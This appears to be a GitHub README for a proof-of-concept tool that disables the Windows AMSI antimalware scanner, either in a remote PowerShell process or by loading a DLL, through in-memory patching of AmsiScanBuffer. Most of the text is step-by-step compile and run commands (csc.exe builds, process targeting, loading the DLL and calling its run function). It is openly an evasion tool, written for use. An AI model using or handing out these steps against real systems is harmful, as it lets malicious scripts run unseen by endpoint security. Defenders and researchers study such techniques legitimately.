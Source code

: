 This PoC shows how to use [this](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/) method to disable AMSI in a remote process. Avi's write-up explains how to disable AMSI by patching the AMSIScanBuffer method in memory, in the current process, by loading a DLL. A working example of that DLL code has been included in the repository as well.

To disable AMSI in a remote PowerShell process, compile remote_process_amsi_bypass.cs:

```
PS> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:remote_process_amsi_bypass.exe .\remote_process_amsi_bypass.cs
```

Then open a single PowerShell instance. The PoC is hard coded to disable AMSI in a single PowerShell process (see code below):
```
Process.GetProcessesByName("powershell")[0]
```

Then run remote_process_amsi_bypass.exe from cmd.exe:
```
C:\Users\example\Desktop>remote_process_amsi_bypass.exe
```

You may get an error message 'Unhandled Exception: System.AccessViolationException: Attempted to read or write protected memory.', However, AMSI should now be disabled in the PowerShell instance.

To disable AMSI in PowerShell by loading a DLL, compile amsi_bypass_dll.cs:
```
PS> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library /unsafe /out:amsi_bypass.dll .\amsi_bypass_dll.cs
```

Then, from within PowerShell, load the DLL and run its exported function:
```
PS> [System.Reflection.Assembly]::LoadFile('C:\Users\example\Desktop\amsi_bypass.dll')
PS> [amsibypass.amsibypass]::run()
